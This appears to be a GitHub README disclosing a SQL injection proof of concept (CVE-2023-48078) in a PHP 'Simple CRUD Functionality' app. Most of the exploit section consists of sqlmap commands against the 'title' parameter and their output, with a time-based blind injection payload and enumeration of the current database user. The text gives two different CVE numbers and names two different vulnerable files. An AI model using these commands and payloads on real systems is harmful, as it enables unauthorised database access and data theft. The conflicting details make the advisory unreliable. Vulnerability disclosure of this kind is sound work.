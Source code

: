 # Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: esasadam06
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'title' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud'`

```
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---
```
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud' -T 'notes' --is-dba --current-user`

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---

root@localhost
current user: 'root@localhost'
```
![image](https://github.com/esasadam06/Simple-CRUD-Functionality-SQLi-POC/assets/48632551/f1ce31be-d8dd-408b-87c1-a37d6cd76448)
